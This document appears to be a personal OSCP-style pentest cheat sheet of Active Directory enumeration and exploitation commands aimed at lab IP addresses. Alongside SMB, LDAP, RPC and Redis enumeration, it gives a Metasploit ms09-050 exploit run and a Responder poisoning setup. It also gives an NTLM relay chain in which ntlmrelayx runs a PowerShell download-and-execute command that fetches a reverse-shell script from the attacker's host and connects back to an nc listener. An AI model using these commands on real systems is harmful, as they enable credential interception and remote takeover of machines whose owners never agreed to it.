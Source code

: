 SMB, port 139/445
```
lookupsid.py oscp.exam/anonymous@10.129.235.244 -no-pass
```
- used anonymous because when enumerating smb anonymously can see shares with `smbclient -L <ip> -N`
- to remove everything before the `\` use vim command:
	- `:%s/^.*\\//`
- to remove everything after the first space
	- `:%s/ .*$//`
if READ access to IPC$ share, can rid-brute users
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```

```
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>
```

```
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>
```

```
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
```

```
nxc smb <ip> -u '' -p ''
```

```
nxc smb <ip> -u 'a' -p '' 
```

```
nxc smb <ip> --users
```

LDAP, port 389/636

```
ldapsearch -x -b "dc=hutch,dc=offsec" "user"  -H ldap://192.168.199.122 | grep dn
```
- check for users
- vim command to remove everything but names from output `:%s/^.*CN=\([^,]*\),.*$/\1/`
	- or try `:g/^dn: CN=\([^,]\+\),CN=Users,DC=hutch,DC=offsec$/s//\1/`


- vim command to reformat names with like `first.last` `:%s/^\(.*\) \([^ ]*\)$/\1.\2/`

```
ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.199.122 | grep description
```
- searches for descriptions
```
ldapsearch -x -b "dc=baby,dc=vl" "*"  -H ldap://10.10.88.213 | grep desc -A2
```
- searches for descriptions with more context)


```
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
```

```
ldapsearch -d 1 -x -H ldap://10.10.5.122 -b "dc=VULNNET"
```

RPC, port 135
```
rpcclient -N -U '' 10.10.10.161
```
- `enumdomusers`
```
net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'
```

Redis NoSQL, Port 6379
```
redis-cli -h 10.10.246.197
```
- to retrieve all parameters from redis-cli, run ``CONFIG GET *``

if smb message signing is disabled, either eternal blue or more likely ms09-050
```
nmap -p139,445 --script "smb-vuln*" 192.168.188.40
```
- test if vulnerable
	- if so:
```
msfconsole
search ms09-050
use 0
set LHOST <my ip>
set RHOSTS <victim ip>
run
```
- root shell

RDP
```
xfreerdp /v:192.168.161.221 -sec-nla
```


Analyze behavior over network without responding
```
sudo responder -I tun0 -A
```
- can use this in combination with other exploits to see if anything is replayable
- make sure to enable SMB with `cat /usr/share/responder/Responder.conf | grep -i smb`
	- if Off, use `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf` to turn it On

***NTLM Relay over SMB***
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled, so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30
